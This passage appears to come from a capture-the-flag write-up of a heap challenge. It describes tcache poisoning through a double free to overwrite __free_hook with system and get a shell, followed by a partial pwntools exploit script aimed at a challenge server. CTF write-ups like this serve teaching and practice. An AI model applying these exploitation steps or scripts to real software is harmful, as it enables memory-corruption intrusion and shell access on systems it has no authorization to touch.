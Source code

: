 After that it was just a tcache poisoning attack to get a chunk on `__free_hook` and overwrite it with `system`. Then, calling free on a chunk that has its first 8 bytes set to '/bin/sh\x00' gives a shell.

Again there really isn't much to explain regarding the leak. I just viewed the heap a couple times, did some trial and error with creating messages and messing around with the LSB of the fd pointer after the double free, and for some reason the last `message('A'*0x30)` puts a libc address into the heap. No idea why, but I'll take what I can get.

Exploit doesn't seem to be completely reliable remotely, but works perfectly fine locally. Might have to run it a couple times to get it to work remotely.
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.so.6')

def get_base_address(proc):
  return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
  script = ""
  PIE = get_base_address(p)
  for bp in breakpoints:
    script += "b *0x%x\n"%(PIE+bp)
  gdb.attach(p,gdbscript=script)

def create(username, age):
    p.sendlineafter(': ', '0')
    p.sendlineafter(': ', str(age))
    p.sendafter(': ', username)

def edit(username, age):
    p.sendlineafter(': ', '1')
    p.sendlineafter(': ', str(age))
    p.sendafter(': ', username)

def free():
    p.sendlineafter(': ', '2')

def message(msg):
    p.sendlineafter(': ', '3')
    p.sendafter(': ', msg)

def start():
    if not args.REMOTE:
        return process('./vuln')
    else:
        return remote('34.69.116.108', 3333)

context.terminal = ['tmux', 'new-window']

p = start()
if args.GDB:
    debug([])

# Initial user
create('A'*8, 15)

# Double free
free()
free()

```